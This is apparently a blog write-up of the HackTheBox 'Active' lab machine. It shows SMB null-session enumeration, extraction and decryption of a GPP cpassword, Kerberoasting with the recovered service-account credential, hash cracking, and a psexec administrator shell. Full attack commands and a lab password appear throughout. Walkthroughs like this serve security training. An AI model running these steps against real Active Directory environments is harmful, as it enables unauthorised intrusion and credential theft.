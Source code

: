 ```yaml
---
layout: post
title: "Active"
date: 2024-12-28
author: d0s3nt
categories: [Writeup, HackTheBox]
tags: [htb, writeup, security, ad, windows]
pin: true
math: true
mermaid: true
image:
  path: /assets/Hack-The-Box-logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


starting with nmap 
```bash
sudo nmap -sC -sV -p- -oN active -T4 10.10.10.100
```
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525110417.png)


smb null session is allowed , let's explore open shares
```bash
nxc smb 10.10.10.100 -u '' -p '' --shares -M spider_plus
```
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525110701.png)
`Groups.xml` is very interesting
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525110751.png)


let's connect to this share ,and get this file

```bash
smbclient -N \\\\10.10.10.100\\Replication -U ''
```

we found cpassword , we can decrypt it using `gpp-decrypt`
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525110913.png)

```bash
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
```
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525111021.png)

we got creds for the SVC_TGS
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525111146.png)


let's try kerberoasting attack using the creds we found

```nxc ldap 10.10.10.100 -u 'active.htb\SVC_TGS' -p 'GPPstillStandingStrong2k18' --kerberoast kerberoasting
```
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525111243.png)

let's try to crack it

![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525111411.png)

we can now get psexec to get shell on the box as administrator 

![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525111519.png)